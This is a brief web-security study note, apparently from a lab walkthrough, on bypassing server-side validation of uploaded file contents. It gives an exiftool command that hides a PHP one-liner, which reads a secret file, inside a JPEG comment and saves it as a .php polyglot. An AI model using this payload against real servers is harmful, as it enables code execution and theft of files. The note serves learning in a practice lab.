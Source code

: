 ## **Flawed validation of the file's contents**

Servers wont just check content-type in request, for example if is an image, it’ll check it’s dimension. So we can’t pass a php one-liner code in content.

Some file type contains specific header/footer bytes, for example JPEG files always begin with the bytes `FF D8 FF`.

This can also be modified using exiftool

```sql
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

```

This command will create a image format and store the payload in it as comment, and the extension will be .php (which can be bypassed on the server)
